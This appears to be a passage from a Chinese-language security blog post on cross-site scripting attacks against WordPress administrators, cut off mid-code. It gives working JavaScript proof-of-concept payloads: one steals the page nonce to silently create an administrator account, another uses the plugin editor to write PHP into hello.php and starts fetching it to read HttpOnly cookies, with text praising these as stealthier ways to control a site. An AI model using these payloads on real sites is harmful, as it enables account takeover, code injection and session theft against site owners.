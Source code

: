 ## xss的前端攻击

在wordpress中，对用户的权限有着严格的分级，我们可以构造请求来添加管理员权限的账号，用更隐秘的方式来控制整个站点。

poc:
```
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/user-new.php';
user = 'ddog';
pass = 'ddog';
email = 'ddog@ddog.com';

a = new XMLHttpRequest();
a.open('GET', url+p, 0);
a.send();

ss = '_wpnonce_create-user=' + /nonce_create-user" value="([^"]*?)"/.exec(a.responseText)[1] +
'&action=createuser&email='+email+'&pass1='+pass+'&pass1-text='+pass+'&pass2='+pass+'&pw_weak=on&role=administrator&user_login='+user;

b = new XMLHttpRequest();
b.open('POST', url+p, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);

```

后台已经被添加了新的管理员账号
![image.png-8.5kB][6]

但即便是我们通过添加新的管理员账号获取了网站的管理员权限，我们还是不可避免的留下了攻击痕迹，但其实我们通过更隐秘的方式获取admin账号的cookie。

还记得上文中提到的php代码执行吗，利用注入页面的phpinfo，我们可以获取httponly的cookie。

![image.png-34.9kB][7]

当然，我们仍然需要构造连接整个攻击过程的js代码。

```
// 写入phpinfo
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '<?php phpinfo();?>';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);

// 请求phpinfo
b.onreadystatechange = function(){
   if (this.readyState == 4) {
      	p_url = url + 'wp-content/plugins/hello.php';

		c = new XMLHttpRequest();
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png